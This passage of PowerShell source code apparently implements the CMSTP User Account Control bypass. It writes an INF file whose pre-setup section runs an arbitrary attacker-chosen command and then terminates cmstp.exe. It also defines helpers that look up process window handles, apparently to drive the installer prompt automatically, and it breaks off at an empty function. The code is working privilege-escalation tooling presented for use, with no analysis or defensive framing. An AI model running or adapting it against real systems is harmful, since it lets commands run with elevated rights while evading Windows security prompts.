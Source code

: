 $InfContent = @"
[version]
Signature=`$chicago`$
AdvancedINF=2.5
[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection
[RunPreSetupCommandsSection]
; Commands Here will be run Before Setup Begins to install
$CommandToExecute
taskkill /IM cmstp.exe /F
[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7
[AllUSer_LDIDSection]
"HKLM", "SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE", "ProfileInstallPath", "%UnexpectedError%", ""
[Strings]
ServiceName="CorpVPN"
ShortSvcName="CorpVPN"
"@

$InfContent | Out-File $InfFileLocation -Encoding ASCII
}


Function Get-Hwnd
{
  [CmdletBinding()]
    
  Param
  (
    [Parameter(Mandatory = $True, ValueFromPipelineByPropertyName = $True)] [string] $ProcessName
  )
  Process
    {
        $ErrorActionPreference = 'Stop'
        Try 
        {
            $hwnd = Get-Process -Name $ProcessName | Select-Object -ExpandProperty MainWindowHandle
        }
        Catch 
        {
            $hwnd = $null
        }
        $hash = @{
        ProcessName = $ProcessName
        Hwnd        = $hwnd
        }
        
    New-Object -TypeName PsObject -Property $hash
    }
}

function Set-WindowActive
{
  [CmdletBinding()]
